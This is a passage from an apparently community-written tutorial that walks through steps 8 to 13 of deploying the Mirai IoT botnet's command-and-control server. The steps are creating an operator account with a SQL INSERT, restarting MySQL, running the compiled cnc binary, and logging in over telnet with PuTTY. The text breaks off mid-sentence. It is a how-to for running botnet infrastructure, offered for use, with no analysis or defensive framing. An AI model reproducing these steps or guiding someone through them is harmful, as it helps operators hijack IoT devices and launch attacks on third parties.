 change (anna-senpai) to your username and (myawesomepassword) to your passoword please use a strong password no 123456789,

Please copy and paste on a note bloc to do this modification,
before.

And put in your Debian 86x_64x terminal.


code:

INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');


-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
[Step9] - Restart mysql server.

Now, restart mysql server is needed to be sure the tables run with mysql,

code:

service mysql restart

-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
[Step10] - Execute the Mirai Iot Botnet server.

Once you restart the mysql server, go to your debug folder ./mirai/release ,
you will seen a compiled file named cnc execute it.


You should see - http://prntscr.com/dnsluv
after put the the code below:

code:

./cnc

-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
[Step11] - Move the prompt.txt 

Now your going to have to move the (prompt.txt) file in  ( ../mirai  ) and move into the ../mirai/release folder

-------------------------NO MORE CODE-------------------STOP HERE AND READ----------------
[Step12] - Use the putty.


Now open Putty and select TELNET and put your IP or your.domain.com
 
 --------------------------------------------STOP HERE AND READ----------------
 [Step13] - Login.
 
 remmeber when you have puted in this string your usename and password

  *** in [Step8] - Database create users and permissions. ***

INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');

-------//----
OKAY,well use this user name and password to login in this case the username is:
anna-senpai 

and the password is :
